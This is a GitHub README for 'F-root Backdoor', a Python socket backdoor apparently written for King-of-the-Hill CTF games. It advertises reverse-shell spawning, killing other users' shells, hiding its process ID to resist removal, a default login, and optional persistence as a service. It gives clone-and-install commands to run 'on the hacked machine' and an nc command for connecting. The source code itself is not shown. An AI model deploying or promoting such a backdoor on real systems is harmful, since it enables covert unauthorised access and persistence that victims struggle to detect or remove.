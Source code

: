 ![banner](https://cdn.discordapp.com/attachments/953295200200065056/1093675758922248213/Screenshot_2023-04-06_20-16-15.png)


<h1>F-root Backdoor</h1> 

> :warning: In development

### Topics

#### [Description](#description)
#### [Perks](#perks)
#### [configuration](#configuration)
#### [requisites](#requisites)

## **Description**
<p align="justify">
  A Simple Backdoor Made in Python Using Sockets I Believe It's Simple To Handle Other Than It Hides PID From Connections Making The Backdoor Better For Games Like Koth 
</p>

## Requisites
Python3 (tested on: Python 3.11.2, 3.9.9, 3.6.9)

### To install Python 3.9.9 (no-root)
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir /path/to/.localpython # change
./configure --prefix=/path/to/.localpython # change
make;make install
```
### tested koth machines
Hackers :white_check_mark:
Food :white_check_mark:
Shrek :white_check_mark:
Fortune :white_check_mark:
Hogwarts ❌
Panda ❌
SpaceJam ❌

if possible root in the machine
## Perks

### Revshell
The backdoor can make a Revshell for other devices Only using a command #revshell
![revshell](https://cdn.discordapp.com/attachments/953295200200065056/1093672538078453770/Screenshot_2023-04-06_20-04-06.png)
### Kill
In Game Situations (Koth) It Would Be Ideal to Create a Command to Kill Any Shell Existing on the Machine With tty Only using a command #kill
![kill](https://media.discordapp.net/attachments/953295200200065056/1093674460638351410/Screenshot_2023-04-06_20-11-44.png?width=1219&height=762)

### Login System
The backdoor has a login system so that if someone connects you will need a login and password :)
![login](https://cdn.discordapp.com/attachments/953295200200065056/1093676969167704074/Screenshot_2023-04-06_20-21-07.png)

### Hidden PID
The backdoor Hides The PID of the process that is done through the server making it difficult to remove the backdoor
![hidden](https://cdn.discordapp.com/attachments/953295200200065056/1093682587345633342/Screenshot_2023-04-06_20-44-02.png)


## Configuration
Change the passwords or the port if you want to default the port is 1010 and the login and password are `froot:detrew`

If you want to simplify things run the file install.sh (Modify the file Server.py before)

if you don't just change things in the file and it's ready to run, if you want to add an extra persistence you can add a service that will run the file

## Install 
### On The Hacked Machine
```
git clone https://github.com/Detrew/f-root-backdoor
cd f-root-backdoor
chmod +x install.sh
bash install.sh
```
### On Your Machine Connect Using nc
`nc IP PORT`


